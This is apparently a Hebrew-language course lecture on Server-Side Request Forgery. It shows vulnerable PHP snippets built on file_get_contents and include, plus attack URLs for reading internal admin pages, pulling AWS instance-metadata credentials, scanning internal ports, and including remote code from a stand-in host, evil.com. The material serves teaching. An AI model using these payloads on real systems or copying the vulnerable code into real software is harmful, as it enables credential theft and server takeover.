

repository: AmitPinchasi/amittech · page: מחקר-אתרים/5  - חולשות צד שרת/5.4 - חולשת ssrf/5.4 - חולשת ssrf - הרצאה/index.html · generator: mkdocs

# SSRF - Server-Side Request Forgery

## מבוא

חולשת SSRF (Server-Side Request Forgery) היא חולשה שבה תוקף מנצל שרת כדי לשלוח בקשות HTTP ליעדים פנימיים או חיצוניים, מה שמאפשר לו לגשת למשאבים מוגנים, לבצע סריקות רשת פנימיות, ואף להדליף מידע רגיש.

## **כיצד מתקפת SSRF עובדת?**

בדרך כלל, מתקפת SSRF מתרחשת כאשר אתר מאפשר למשתמש להזין כתובת URL כדי למשוך מידע מהאינטרנט, אך אינו מסנן כראוי את הקלט. תוקף יכול לנצל זאת כדי לגרום לשרת לבצע בקשות זדוניות.

## **1. SSRF בסיסי - שליחת בקשות פנימיות**

### **דוגמה לקוד PHP פגיע**

```php
<?php
if (isset($_GET['url'])) {
    $url = $_GET['url'];
    $response = file_get_contents($url);
    echo $response;
}
?>
```

📌 **כיצד ניתן לתקוף?** תוקף יכול לשלוח בקשה כדי לקרוא משאב פנימי:

```
http://example.com/fetch.php?url=http://localhost/admin
```

📌 **אם השרת כולל אתר פנימי שלא חשוף לאינטרנט, התוקף יכול להציג מידע סודי.**

## **2. SSRF לקריאת שירותים פנימיים (AWS, Redis, וכו')**

### **גישה לשירותים פנימיים דרך SSRF**

תוקף יכול להשתמש ב-SSRF כדי לשלוח בקשה לשרתי ענן או שירותים פנימיים כגון:

```
http://example.com/fetch.php?url=http://169.254.169.254/latest/meta-data/
```

📌 **אם השרת רץ ב-AWS, התוקף יכול לקרוא את ה-Instance Metadata ולהשיג credentials לשירותי הענן!**

## **3. SSRF לצורך סריקות רשת פנימיות**

📌 **דוגמה לתקיפה כדי לבדוק אם פורטים פתוחים בשרת הפנימי:**

```
http://example.com/fetch.php?url=http://127.0.0.1:22
http://example.com/fetch.php?url=http://192.168.1.1:3306
```

📌 **אם מתקבלת תגובה, התוקף יודע שהפורט פתוח!**

## **4. SSRF להרצת קוד דרך include**

### **דוגמה לקוד PHP פגיע**

```php
<?php
if (isset($_GET['page'])) {
    include $_GET['page'];
}
?>
```

📌 **כיצד ניתן לתקוף?**

```
http://example.com/index.php?page=http://evil.com/malicious.php
```

📌 **אם allow_url_include מופעל ב-PHP, ניתן להכניס קובץ חיצוני עם קוד זדוני!**
